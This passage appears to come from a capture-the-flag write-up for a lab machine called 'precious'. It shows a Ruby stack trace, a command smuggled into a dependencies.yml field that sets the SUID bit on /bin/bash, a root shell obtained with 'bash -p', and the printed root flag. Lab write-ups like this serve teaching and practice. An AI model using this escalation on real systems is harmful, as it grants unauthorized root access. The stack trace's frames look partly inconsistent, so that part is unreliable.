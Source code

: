 ```bash
        10: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:299:in `fix_syck_default_key_in_requirements'
         9: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_reader.rb:59:in `each'
         8: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_header.rb:101:in `from'
         7: from /usr/lib/ruby/2.7.0/net/protocol.rb:152:in `read'
         6: from /usr/lib/ruby/2.7.0/net/protocol.rb:319:in `LOG'
         5: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
         4: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
         3: from /usr/lib/ruby/vendor_ruby/rubygems/request_set.rb:388:in `resolve'
         2: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
         1: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
/usr/lib/ruby/2.7.0/net/protocol.rb:458:in `system': no implicit conversion of nil into String (TypeError)
```

Now I modify the `git_set` field in the `dependencies.yml` file with the command `chmod +s /bin/bash` to set the SUID bit.

```bash
henry@precious:~$ ls -al /bin/bash
-rwsr-sr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```

Now I can run the command `/bin/bash -p` and get the root flag.

```bash
henry@precious:~$ /bin/bash -p
bash-5.1# id
uid=1000(henry) gid=1000(henry) euid=0(root) egid=0(root) groups=0(root),1000(henry)
bash-5.1# cd /root/
bash-5.1# ls
root.txt
bash-5.1# cat root.txt
aff216d5ce3cb390eb21ba2a3d415730
```